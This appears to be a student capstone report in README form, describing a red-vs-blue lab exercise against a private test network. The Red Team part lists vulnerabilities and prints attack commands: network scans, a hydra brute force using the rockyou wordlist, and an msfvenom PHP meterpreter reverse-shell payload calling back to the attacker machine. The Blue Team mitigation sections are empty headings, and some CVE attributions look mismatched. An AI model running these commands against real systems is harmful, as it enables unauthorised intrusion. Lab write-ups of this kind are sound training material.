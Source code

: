 ## Capstone Red vs Blue CySec Report

Author: Min Young Lee

## Preface
This is a cybersecurity project report on a network vulnerability.  There are two parts of this project: the attacker (Red Team) and the victim (Blue Team).  The Red Team is tasked with identifying vulnerabilities in the network and exploiting the found vulnerabilities.  The Blue Team is tasked with detecting malicious activities on the network and mitigating the identified malicious attacks.  

## Network Topology

![](img url)

| Hostname| IP Address | Role on Network |
| ------------------ | ------------------ |------------------ |
|ML-RefVM-684427| 192.168.1.1 | NATSwitch|
|Capstone |192.168.1.105 |Web server|
|Kali |192.168.1.90 |Pen. test system|
|ELK |192.168.1.100| SIEM system|

# Red Team
## Recon
## Vulnerability Assessment 

|Vulnerability| Description| Impact|
| ------------------ | -------- |------------------ |
|Apache Directory Listing CVE-2007-0450|Allows browser traversal to realdirectories on Capstone Apacheweb server|Allowed attackers to reveal the ip address and the secret folder|
|No Failed Login Lockout| No account lockdown when excessive login failures occurred within a short period of time| Brute force attack was possible to gain access to Ryan’s login information |
|Weak Password| The password was available on a common password library such as “rockyou”| The brute force attack was able to identify the login password.|
|Reverse Shell Backdoor CVE-2019-13386| Allows to send a reverse shell payload on a web server while the firewalls do not detect the payload |Attackers gained the remote backdoor access to the Capstone web server|
|Weak Hashed Password |Unsalted hashed information which can be decrypted using various web applications to decode |The hashed information, the CEO login information, was decoded.  |
|Simplistic Username| Usage of the common names or real names as a login ID |By having an access to the directory, the attack was able to identify the login IDs |
|Root Accessibility| The anonymous commands has an access to the resources |The attacker was able to connect to devices|
|Unencrypted Credentials |The stored values of usernames and passwords, both passwords and the hashed passwords, were in a plain text |The attacker was able to gain access to the login IDs and passwords|

## Exploitation(s) 
### Apache Directory Listing CVE-2007-0450
	netdiscover -r 192.168.1.255/16

	nmap -sV 192.168.1.1-105

	nmap -sS -A 192.168.1.105

	wget 192.168.1.105 /meet_our_team/ashton.txt

### No Failed Login Lockout
	hydra -l ashton -P /usr/share/wordlists/rockyou .txt -s 80 -f -vV 192.168.1.105 http-get/company_folders/secret_folder/ -t 60

### Reverse Shell Backdoor CVE-2019-13386
	msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw > shell.php

Login to webdav as Ryan to move the payload
Listen to host: 192.168.1.90 & port:4444

	meterpreter> shell
	>find / -name flag.txt 2>/dev/null
	>cat flag.txt

# Blue Team
![](https://github.com/ActualSalt/Capstone-Red-vs-Blue-CySec-Report/blob/main/images/brutefoce_evidence.png?raw=true)
![](https://github.com/ActualSalt/Capstone-Red-vs-Blue-CySec-Report/blob/main/images/identfy_scan.png?raw=true)
![](https://github.com/ActualSalt/Capstone-Red-vs-Blue-CySec-Report/blob/main/images/request_hidden_directory.png?raw=true)
## Vulnerability Midigation: Block the Port Scan
### Alarm 

### Hardening

## Vulnerability Midigation: Finding the Request for the Hidden Directory
### Alarm 

### Hardening

## Vulnerability Midigation: Preventing Brute Fore Attacks 
### Alarm 

### Hardening

## Vulnerability Midigation: Detecting the WebDAV Connection 
### Alarm 

### Hardening

## Vulnerability Midigation: Identifying Reverse Shell Uploads 
### Alarm 

### Hardening




# Assessment Summary 

|  **Red Team** | **Blue Team** |
| -------------- | --------------- |

